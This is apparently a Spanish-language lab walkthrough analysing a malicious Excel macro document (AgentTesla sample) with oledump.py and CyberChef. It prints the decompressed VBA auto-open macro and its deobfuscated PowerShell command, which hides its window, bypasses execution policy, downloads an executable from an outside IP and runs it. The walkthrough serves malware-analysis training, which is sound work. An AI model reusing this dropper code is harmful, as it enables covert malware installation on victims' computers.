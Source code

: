 En esta tarea usaremos `oledump.py` para realizar análisis estático de un documento de Excel potencialmente malicioso.

`Oledump.py` es una herramienta que analiizza archivos **OLE2**, comunmente llamado **Structured Storage / Compound File** Binary Fotmat. **OLE** significa **Object Linking and Embedding**, una tecnología de propiedad desarrollada por Microsoft. Los archivos OLE2 son típicamente usados para almacenar múltiples tipos de información, como documentos, hojas de cálculo y presentaciones en un mismo archivo. Esta herramienta es útil para extraer y examinar los contenidos de los archivos OLE2, haciéndola valiosa para análisis forense.

Usando la máquina virtual **REMnux VM** en la tarea, navega hasta el directorio `/home/ubuntu/Desktop/tasks/agenttesla/`. Nuestro archivo objetivo es `agenttesla.xlsm` Ejecuta el comando `oledump.py agenttesla.xlsm`. Verás lo siguiente:

```shell
ubuntu@MACHINE_IP:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm 
A: xl/vbaProject.bin
A1:       468 'PROJECT'
A2:        62 'PROJECTwm'
A3: m     169 'VBA/Sheet1'
A4: M     688 'VBA/ThisWorkbook'
A5:         7 'VBA/_VBA_PROJECT'
A6:       209 'VBA/dir'
```

Basado en el análisis de archivo de OleDump, un script VBA puede estar incrustado en el documento y encontrado dentro de `xl/vbaProject.bin`. Por eso, oledump le dará un índice de A, aunque puede ser diferente a veces. El índice A + Números se llama **data streams**.

Ahora deberíamos fijarnos en la data stream con la letra M. Esto significa que hay una **Macro**, y puedes querer comprobar este data stream, `VBA/ThisWorkBook`.

Vamos a comprobarlo. Ejecutaremos el comando `oledump.py agenttesla.xlsm -s 4`. Este comando correrá oledump y mirará en los actuales data stream usando el parámetro `-s`, que es la forma corta de `-select`.

```shell
ubuntu@MACHINE_IP:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4

00000000: 01 AC B2 00 41 74 74 72  69 62 75 74 00 65 20 56  ....Attribut.e V
00000010: 42 5F 4E 61 6D 00 65 20  3D 20 22 54 68 69 00 73  B_Nam.e = "Thi.s
00000020: 57 6F 72 6B 62 6F 6F 10  6B 22 0D 0A 0A 8C 42 61  Workboo.k"....Ba
00000030: 73 01 02 8C 30 7B 30 30  30 32 30 50 38 31 39 2D  s...0{00020P819-
00000040: 00 10 30 03 08 43 23 05  12 03 00 34 36 7D 0D 7C  ..0..C#....46}.|
00000050: 47 6C 10 6F 62 61 6C 01  D0 53 70 61 82 63 01 92  Gl.obal..Spa.c..
00000060: 46 61 6C 73 65 0C 25 00  43 72 65 61 74 61 62 6C  False.%.Creatabl
00000070: 01 15 1F 50 72 65 64 65  63 6C 12 61 00 06 49 64  ...Predecl.a..Id
00000080: 00 23 54 72 75 81 0D 22  45 78 70 6F 73 65 01 1C  .#Tru.."Expose..
00000090: 01 11 40 54 65 6D 70 6C  61 74 40 65 44 65 72 69  ..@Templat@eDeri
000000A0: 76 96 12 43 80 75 73 74  6F 6D 69 7A 84 44 0D 83  v..C.ustomiz.D..
000000B0: 32 50 80 18 80 1C 20 53  75 62 02 20 05 92 5F 4F  2P.... Sub. .._O
000000C0: 70 65 6E 28 00 29 0D 0A  44 69 6D 20 53 00 71 74  pen(.)..Dim S.qt
000000D0: 6E 65 77 20 41 73 04 20  53 80 25 6E 67 2C 20 73  new As. S.%ng, s
000000E0: C0 4F 75 74 70 75 74 07  09 03 14 00 4D 67 67 63  .Output.....Mggc
000000F0: 62 6E 75 61 02 64 01 0C  4F 62 6A 65 63 74 42 2C  bnua.d..ObjectB,
00000100: 07 0A 45 78 65 63 07 0C  0D 06 0A 04 2B 00 BD 5E  ..Exec......+..^
00000110: 70 2A 6F 5E 00 2A 77 2A  65 2A 72 2A 73 10 5E 5E  p*o^.*w*e*r*s.^^
00000120: 2A 68 80 04 6C 5E 2A 00  6C 2A 20 2A 5E 2D 2A 57  *h..l^*.l* *^-*W
00000130: 00 2A 69 2A 6E 2A 5E 64  2A 00 6F 2A 77 5E 2A 53  .*i*n*^d*.o*w^*S
00000140: 2A 74 A0 2A 79 2A 5E 6C  00 11 20 00 14 02 69 01  *t.*y*^l.. ...i.
00000150: 0C 64 2A 5E 65 2A 6E 2A  5E 00 08 2D 00 0B 78 41  .d*^e*n*^..-..xA
00000160: 03 63 2A 12 75 00 0A 5E  69 00 0D 6E 2A 70 40 6F  .c*.u..^i..n*p@o
00000170: 6C 5E 69 63 79 C0 07 62  00 2A 79 70 5E 5E 61 73  l^icy..b.*yp^^as
00000180: 73 20 2A 3B 2A 20 24 01  4D 46 69 0A 6C 41 12 3D  s *;* $.MFi.lA.=
00000190: C0 00 5B 2A 49 2A 80 4F  2A 2E 2A 50 2A 61 C0 0E  ..[*I*.O*.*P*a..
000001A0: 00 68 2A 5D 2A 3A 3A 47  65 1A 74 40 09 2A 83 09  .h*]*::Ge.t@.*..
000001B0: 41 79 28 29 20 40 7C 20  52 65 6E 5E C0 02 2D 00  Ay() @| Ren^..-.
000001C0: 49 74 5E 65 6D 20 2D 4E  04 65 77 42 9A 7B 20 24  It^em -N.ewB.{ $
000001D0: 5F 20 18 2D 72 65 40 62  40 82 27 74 6D 00 70 24  _ .-re@b@.'tm.p$
000001E0: 27 2C 20 27 65 78 80 65  27 20 7D 20 96 50 C1 1D  ', 'ex.e' } .P..
000001F0: 00 54 68 72 75 3B 20 49  6E 00 5E 76 6F 2A 6B 65  .Thru; In.^vo*ke
00000200: 2D 57 00 65 5E 62 52 65  2A 71 75 00 65 73 74 20  -W.e^bRe*qu.est 
00000210: 2D 55 5E 72 00 69 20 22  22 68 74 74 70 00 3A 2F  -U^r.i ""http.:/
00000220: 2F 31 39 33 2E 32 02 30  C3 00 36 37 2F 72 74 2F  /193.2.0..67/rt/
00000230: 00 44 6F 63 2D 33 37 33  37 80 31 32 32 70 64 66  .Doc-3737.122pdf
00000240: 2E 00 16 D0 22 22 20 2D  00 63 2A C1 27 07 34 02  ...."" -.c*.'.4.
00000250: 3B 80 65 2A 61 72 74 2D  50 80 72 6F 63 65 2A 73  ;.e*art-P.roce*s
00000260: 73 88 06 2B 00 B0 46 5E  52 83 2A 28 03 04 2C 20  s..+..F^R.*(.., 
00000270: 68 22 2A 22 00 01 22 C0  7D 97 08 5E 49 86 08 65  h"*"..".}..^I..e
00000280: 74 48 7C 3D 20 C2 B8 65  01 43 77 28 22 57 53 63  tH|= ..e.Cw("WSc
00000290: 72 69 00 70 74 2E 53 68  65 6C 6C EB 8E 0B C2 82  ri.pt.Shell.....
000002A0: 3D C7 03 2E 01 04 C4 18  C0 0A 08 45 6E 64 81 A3  =..........End..
```

Los resultados arriba son el dumpeo en formato hexadecimal. Hay una manera más sencilla de leerlo, para ello debemos usar el parámetro `--vbadecompress` además del comando anterior:

```shell
ubuntu@MACHINE_IP:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4 --vbadecompress

Attribute VB_Name = "ThisWorkbook"
Attribute VB_Base = "0{00020819-0000-0000-C000-000000000046}"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = False
Attribute VB_TemplateDerived = False
Attribute VB_Customizable = True
Private Sub Workbook_Open()
Dim Sqtnew As String, sOutput As String
Dim Mggcbnuad As Object, MggcbnuadExec As Object
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
Set Mggcbnuad = CreateObject("WScript.Shell")
Set MggcbnuadExec = Mggcbnuad.Exec(Sqtnew)
```

¿Así mucho mejor no? Nuestro mayor interés está en el valor **Sqtnew**:

```shell
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
```

Copiaremos la primera parte en CyberChef y seleccionas **Find/Replace** dos veces metiendo cada una de las instrucciones. En nuestro caso la primera es cambiar "* " por "" y el segundo "^" por "".

![[Pasted image 20251029175423.png]]

Veamos el output:

```shell
powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' }  PassThru; Invoke-WebRequest -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" -OutFile $TempFile; Start-Process $TempFile;"
```

- Correr `-WindowStyle` en PowerShell te permite controlar cómo la ventana de PowerShell aparece al ejecutar un script o comando. En este caso `hidden` (escondido) significa que no será visible para el usuario.
- Por defecto, PowerShell restringe la ejecución de scripts. El parámetro `-executionPolicy` permite sobreseguir esta política. El `bypass` significa que la restricción se ignora temporalmente.
- El `Invoke-WebRequest` se usa comúnmente para descargar archivos de internet.
	- El parámetro `-Uri` nos deja especificar la URL del recurso web a descargar.
	- El parámetro `-OutFile` especifica el archivo local donde el contenido descargado se guardará.
- El `Start-Process` es ussado para ejecutar el archivo descargado guardado en `$TempFile`.

Para resumirlo, cuando el documento `agenttesla.xlsm` se abre, se dispara una Macro. Esta macro contiene un script VBA. El script se ejecutará sustituyendo los caracteres necesarios en el payload y después lo ejecutará. Este payload ejecuta powershell sin que el usuario pueda ver la interfaz y descarga un archivo de internet y lo ejecuta.